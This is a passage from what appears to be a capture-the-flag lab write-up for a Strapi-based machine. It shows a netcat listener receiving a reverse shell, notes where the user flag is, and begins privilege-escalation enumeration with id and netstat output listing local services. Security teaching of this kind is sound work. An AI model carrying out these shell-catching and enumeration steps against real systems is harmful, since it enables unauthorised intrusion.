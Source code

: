 
Catch the shell.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.194] from (UNKNOWN) [10.10.11.105] 56366
/bin/sh: 0: can't access tty; job control turned off
$ whoami
strapi
```

The user flag is at `/home/developer/user.txt` and world-readable.

---

## Privilege Escalation

### Enumeration

```bash
$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

```bash
$ netstat -ano | grep LISTEN
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      off (0.00/0/0)
tcp6       0      0 :::80                   :::*                    LISTEN      off (0.00/0/0)
tcp6       0      0 :::22                   :::*                    LISTEN      off (0.00/0/0)
unix  2      [ ACC ]     SEQPACKET  LISTENING     786      /run/udev/control
unix  2      [ ACC ]     STREAM     LISTENING     33279    /run/user/0/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     31474    /run/user/1001/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     33283    /run/user/0/gnupg/S.gpg-agent
unix  2      [ ACC ]     STREAM     LISTENING     31478    /run/user/1001/snapd-session-agent.socket
unix  2      [ ACC ]     STREAM     LISTENING     33284    /run/user/0/gnupg/S.gpg-agent.ssh
unix  2      [ ACC ]     STREAM     LISTENING     31479    /run/user/1001/gnupg/S.gpg-agent.ssh
unix  2      [ ACC ]     STREAM     LISTENING     33285    /run/user/0/gnupg/S.gpg-agent.extra
unix  2      [ ACC ]     STREAM     LISTENING     31480    /run/user/1001/gnupg/S.dirmngr
unix  2      [ ACC ]     STREAM     LISTENING     33286    /run/user/0/gnupg/S.dirmngr
unix  2      [ ACC ]     STREAM     LISTENING     31481    /run/user/1001/gnupg/S.gpg-agent
unix  2      [ ACC ]     STREAM     LISTENING     33287    /run/user/0/gnupg/S.gpg-agent.browser
unix  2      [ ACC ]     STREAM     LISTENING     31482    /run/user/1001/gnupg/S.gpg-agent.browser
unix  2      [ ACC ]     STREAM     LISTENING     33288    /run/user/0/snapd-session-agent.socket
unix  2      [ ACC ]     STREAM     LISTENING     31483    /run/user/1001/gnupg/S.gpg-agent.extra
unix  2      [ ACC ]     STREAM     LISTENING     29573    /opt/strapi/.pm2/pub.sock
unix  2      [ ACC ]     STREAM     LISTENING     26791    @irqbalance1139.sock
unix  2      [ ACC ]     STREAM     LISTENING     29574    /opt/strapi/.pm2/rpc.sock
unix  2      [ ACC ]     STREAM     LISTENING     24247    /var/run/vmware/guestServicePipe
unix  2      [ ACC ]     STREAM     LISTENING     29113    /var/run/mysqld/mysqld.sock
unix  2      [ ACC ]     STREAM     LISTENING     25843    @ISCSIADM_ABSTRACT_NAMESPACE
unix  2      [ ACC ]     STREAM     LISTENING     769      /run/systemd/private
unix  2      [ ACC ]     STREAM     LISTENING     778      /run/lvm/lvmpolld.socket
unix  2      [ ACC ]     STREAM     LISTENING     790      /run/systemd/journal/stdout
unix  2      [ ACC ]     STREAM     LISTENING     853      /run/lvm/lvmetad.socket
unix  2      [ ACC ]     STREAM     LISTENING     25103    /run/acpid.socket
unix  2      [ ACC ]     STREAM     LISTENING     25105    /var/run/dbus/system_bus_socket
unix  2      [ ACC ]     STREAM     LISTENING     25107    /run/snapd.socket
unix  2      [ ACC ]     STREAM     LISTENING     25109    /run/snapd-snap.socket
unix  2      [ ACC ]     STREAM     LISTENING     25841    /run/uuidd/request
```
